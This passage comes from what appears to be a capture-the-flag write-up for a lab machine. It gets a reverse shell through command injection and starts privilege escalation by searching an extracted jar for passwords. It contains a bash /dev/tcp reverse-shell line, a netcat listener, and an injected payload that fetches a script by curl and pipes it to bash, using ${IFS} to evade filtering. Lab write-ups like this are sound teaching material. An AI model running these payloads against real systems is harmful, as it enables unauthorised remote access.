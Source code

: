 ![ping](10.png)

Now time for reverse shell.

I put the following command in a shell file and served the file using python http server.

```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1' > shell.sh
```

```bash
sudo python3 -m http.server 80
```

I setup a listener with `nc -lvnp 9001` and then used the following payload the request the shell file and pip it to bash.

```bash
$(curl${IFS}10.10.16.4/shell.sh|bash)
```

![revshell](11.png)

We got a shell!

## **Privilege Escalation**

### app -> josh

On the `/app` directory we find a `.jar` file which belongs to the web application.

I copied it to `/tmp` and extracted it using `unzip cloudhosting-0.0.1.jar`.

Next I searched recursively for the word `password` using `grep -Ri 'password' ./tmp` and got the following:

```terminal
app@cozyhosting:/tmp/sirius$ grep -Ri 'password' ./
grep: ./BOOT-INF/lib/spring-security-config-6.0.1.jar: binary file matches
grep: ./BOOT-INF/lib/spring-security-web-6.0.1.jar: binary file matches
grep: ./BOOT-INF/lib/spring-security-crypto-6.0.1.jar: binary file matches
grep: ./BOOT-INF/lib/thymeleaf-spring6-3.1.1.RELEASE.jar: binary file matches
grep: ./BOOT-INF/lib/tomcat-embed-core-10.1.5.jar: binary file matches
grep: ./BOOT-INF/lib/postgresql-42.5.1.jar: binary file matches
grep: ./BOOT-INF/lib/spring-security-core-6.0.1.jar: binary file matches
grep: ./BOOT-INF/lib/spring-webmvc-6.0.4.jar: binary file matches
grep: ./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.ttf: binary file matches
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:.ri-lock-password-fill:before { content: "\eecf"; }
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:.ri-lock-password-line:before { content: "\eed0"; }
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:    <glyph glyph-name="lock-password-fill"
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:    <glyph glyph-name="lock-password-line"
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:.ri-lock-password-fill:before { content: "\eecf"; }
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:.ri-lock-password-line:before { content: "\eed0"; }
grep: ./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.eot: binary file matches
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.symbol.svg:</symbol><symbol viewBox="0 0 24 24" id="ri-lock-password-fill">
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.symbol.svg:</symbol><symbol viewBox="0 0 24 24" id="ri-lock-password-line">
./BOOT-INF/classes/templates/login.html:                                        <label for="yourPassword" class="form-label">Password</label>
./BOOT-INF/classes/templates/login.html:                                        <input type="password" name="password" class="form-control" id="yourPassword"
```